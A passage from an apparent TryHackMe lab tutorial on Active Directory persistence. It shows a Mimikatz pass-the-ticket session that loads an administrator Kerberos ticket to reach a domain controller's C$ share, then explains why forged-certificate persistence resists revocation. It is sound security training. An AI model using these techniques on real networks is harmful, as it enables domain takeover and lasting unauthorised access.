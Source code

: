 Now we can use Mimikatz to load the TGT and authenticate to THMDC:

```shell-session
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye! 

za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,914,541,568 bytes free
```

### We Are No Longer Friends With The Blue Team

Certificate persistence is significantly harder to defend against. Even if you rotate the credentials of the compromised account, the certificate will still be valid. The only way to remove the persistence is to issue a revocation of the certificate. However, this would only be possible if we generated the certificate through legitimate channels. Since we exported the CA and generated the certificate ourselves, it does not appear on AD CS's list of issued certificates, meaning the blue team will not be able to revoke our certificate.

So what's the only solution to remove the persistence? Well, this is why we are no longer friends. They will have to revoke the root CA certificate. But revoking this certificate means that all certificates issued by AD CS would all of a sudden be invalid. Meaning they will have to generate a new certificate for every system that uses AD CS. You should start to see why this type of persistence is incredibly dangerous and would require full rebuilds of systems if performed.
